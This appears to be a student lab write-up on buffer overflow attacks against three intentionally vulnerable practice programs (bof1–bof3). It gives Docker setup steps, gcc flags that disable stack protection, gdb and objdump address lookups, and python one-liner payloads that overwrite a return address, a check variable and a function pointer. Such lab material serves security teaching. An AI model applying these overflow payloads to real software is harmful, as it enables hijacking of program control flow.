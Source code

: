 # Lab#1 Conduct buffer overflow attack .
## Prepared the eviroment .
  1. Open your Docker Destop
  2. Choice the folder contain file lab and open Terminal
     
      ```bash
      git clone https://github.com/quang-ute/myprojects
      ```
      and after that:
     ```bash
     cd myprojects
     ```
  3. Build the image `img4lab` by Docker
     ```bash
     docker build -t img4lab .
     ```
     and run docker container
     ```bash
      docker run -it --privileged -v $HOME/seclabs:/home/seed/seed@ img4lab
     ```
  4. On `seed@...`
     ```
     cd seclabs
     ```
     create a new direction named `bof`
     ```bash
     mkdir bof
     ```
     and after that:
     ```bash
     cd bof
     ```
     and Open you VSCode -> Connect to WSL -> Open folder `bof`  and catch file bof1, bof2, bof3 from `https://github.com/quang-ute/Security-labs/tree/main/Software/buffer-overflow`
## Attack ( BOF 1 )
![image](https://github.com/user-attachments/assets/3ca0dd01-c5b1-4abd-adcb-757f64f60c0d)

If an attacker supplies more input than the buffer array[200] can handle, they could potentially control the flow of the program and execute unintended code.

1. On `/seclabs/bof$`
   ```bash
   gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
   and load bof1.out in gdb
  
    ```bash
    gdb bof1.out
    ```
  2. Use the disassemble command to display the assembly code
     ```bash
     disas secretFunc
     ```
     ![image](https://github.com/user-attachments/assets/7ee1e5e0-441a-4a39-9a40-bb98f3545acc)
  
  The secretFunc() memory region is `0x0804846b`
  3. Input 'a'*204 followed by `0x0804846b`
     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
     ```
       ![image](https://github.com/user-attachments/assets/a93df09c-aaec-4d0d-8bb4-f96f3cb402b4)
     To remove the Missing arguments line, add any value at the end of your command

     ```bash
     echo $( python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out 120
     ```

     
     ![image](https://github.com/user-attachments/assets/3074ef1f-1809-45df-b5aa-61ef31dffcff)

  ## Attack ( BOF 2 )
  
  ![image](https://github.com/user-attachments/assets/fddde23e-e6fd-4c80-bddd-f2250f004701)

> Since buf is only 40 characters in size, but fgets allows input of up to 45 characters, this can overwrite the memory after the buf array, including the check variable. If you enter enough data to overwrite the value of check, you can change it to 0xdeadbeef, leading to the condition being satisfied and printing the winning message.

1.  On `/seclabs/bof$`
2.  
   ```bash
   gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
   ```
  
2. 

```bash
 echo $(python -c "print('a'*40)" + '\x01\x02\x03\x04' ) | ./bof2.out
```

Terminal will be return  `You are on the right way!`
![image](https://github.com/user-attachments/assets/83deaff6-f75f-46f9-8fdf-8dce2ad89d7a)


If you want to print `Yeah! You win!`

echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde' )") | ./bof2.out

![image](https://github.com/user-attachments/assets/57848a21-9021-4c9c-994a-555c01043102)


 ## Attack ( BOF 3 )    

![image](https://github.com/user-attachments/assets/fef81261-6a29-4df0-974b-91f41cddffb1)



 
The first of all, you have to run 
```bash
objdump -d bof3.out | grep shell
```


 ![image](https://github.com/user-attachments/assets/2298c0b9-23b6-4bd3-b4fb-31c653e51de7)

you can see `0804845b`  <shell>  and after that:

```bash
echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out
```
![image](https://github.com/user-attachments/assets/8425fba6-cc53-4a19-8ddf-f43020f89baa)

Buffer overflow occurs when too much data is entered into the buf. Since fgets allows up to 133 characters to be input (more than the size of buf), the excess data can overwrite the function pointer func. If an attacker knows the address of the shell() function and overwrites the func pointer with this address, the shell() function will be called instead of sup().


